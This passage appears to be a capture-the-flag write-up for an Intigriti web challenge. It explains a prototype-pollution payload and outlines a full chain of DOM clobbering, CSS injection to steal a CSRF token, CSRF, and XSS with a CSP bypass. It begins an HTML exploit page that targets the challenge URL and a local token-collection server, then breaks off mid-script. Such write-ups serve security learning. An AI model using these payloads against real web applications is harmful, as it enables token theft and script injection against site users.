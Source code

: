 In JavaScript, when a given method is not found, the JS engine will keep looking one level up to check it's prototype until the prototype is `null`, hence the name "prototype chain".

DOM element is also a kind of `object`, if `Object.prototype.match` is there, it will be used.

Luckily, we can make it happen by leveraging the prototype pollution vulnerability:

```js
{
  "__proto__":{
    "timeout":{
      "dark":"99999","light":"99999"
    },
    "match":{
      "dark":"1", "light":"1"
    }
  }
}
```

Now, `document.domain.match(/testing/)` returns `"1"` which is truthy and `timeout` is `9999`, we can finally exploit CSS injection and steal the CSRF token.

Part1 is about steal CSRF token to perform CSRF, part2 is about exploit nested parser vulnerability and find a CSP bypass to perform XSS.

After finished both parts, we can build our full exploit script.

## Full Exploit

1. Login with the name `"><img name=domain>` to do DOM clobbering
2. Update theme to do prototype pollution
3. Get CSRF token via CSS injection
4. CSRF to submit the payload which leverage nested parser XSS + CSP bypass via AngularJS
5. Pop up the alert

``` html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <meta name="robots" content="noindex">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <meta http-equiv="X-UA-Compatible" content="ie=edge">
</head>

<body>
  <button onclick="run()">click me to start</button>
  <form id=themeForm method="POST" target="newWindow" enctype="text/plain">
    <input name='{"__proto__":{"timeout":{"dark":"99999","light":"99999"},"match":{"drak":"1","light":"1"}},"primary":{"text":{"dark":"#fff","light":"#fff"},"bg":{"dark":"#fff","light":"#fff"}},"secondary":{"text":{"dark":"#fff","light":"#fff"},"bg":{"dark":"#fff","light":"#fff","padding":"' value='"}}}'>
  </form>
  <form id=previewForm method="POST" target="newWindow">
    <input name="csrf-token" value="">
    <input name="desc" value="">
    <input name="name" value="XSS">
  </form>
  <script>
    const baseUrl = 'https://challenge-0822.intigriti.io/challenge'
    // you need to prepare a server to steal csrf token
    const cssInjectionServerUrl = 'http://localhost:5100'
    let win
    function run() {
      // Step1. login
```